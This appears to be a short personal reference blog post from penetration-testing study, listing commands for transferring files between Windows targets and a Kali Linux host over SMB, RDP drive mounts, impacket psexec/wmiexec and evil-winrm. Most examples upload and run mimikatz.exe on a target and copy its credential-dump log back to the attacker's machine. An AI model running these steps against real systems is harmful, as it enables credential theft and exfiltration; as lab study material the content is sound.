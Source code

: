 ```yaml
---
layout: post
title: Windows to Linux File Transfers
---
```


Transferring files from windows to linux can be annoying. Anyway you do it requires remembering some command line options for whatever tool you're using, which is why this post is being made as a reference for myself.

Here are the methods:

## SMB: 
Start server on linux:
```bash
impacket-smbserver test . -smb2support  -username USERNAME -password PASSWORD
```

then in Windows:
```powershell
net use m: \\Kali_IP\sharename /user:USERNAME PASSWORD

copy mimikatz.log m:\
```

## RDP: Mounting Shared Folders
### xfreerdp
Linux:
```bash
xfreerdp /cert-ignore /compression /auto-reconnect /u:USERNAME /p:PASSWORD /v:192.168.212.250 /w:1600 /h:800 /drive:test,/home/kali/Documents/pen-200
```

Windows:
```powershell
copy mimikatz.log \\tsclient\test\mimikatz.log
```

### rdesktop

Linux:
```bash
rdesktop -z -P -x m -u USERNAME -p PASSWORD XXX.XXX.XXX.XXX -r disk:test=/home/kali/Documents/
```

Windows:
```powershell
copy mimikatz.log \\tsclient\test\mimikatz.log
```

## smpacket tools
> `psexec` and `wmiexec` are shipped with built in feature for file transfer.
{: .prompt-info}

> **Note**: By default whether you upload (lput) or download (lget) a file, it'll be writte in `C:\Windows` path.
{: .prompt-info}

Uploading mimikatz.exe to the target machine:
```powershell
lput mimikatz.exe

cd C:\windows

dir /b mimikatz.exe

mimikatz.exe
```

Downloading mimikatz.log:

```bash
lget mimikatz.log
```

## Evil-winrm

Uploading files:
```bash
upload mimikatz.exe C:\windows\tasks\mimikatz.exe
```

Downloading files:
```bash
download mimikatz.log /home/kali/Documents
```
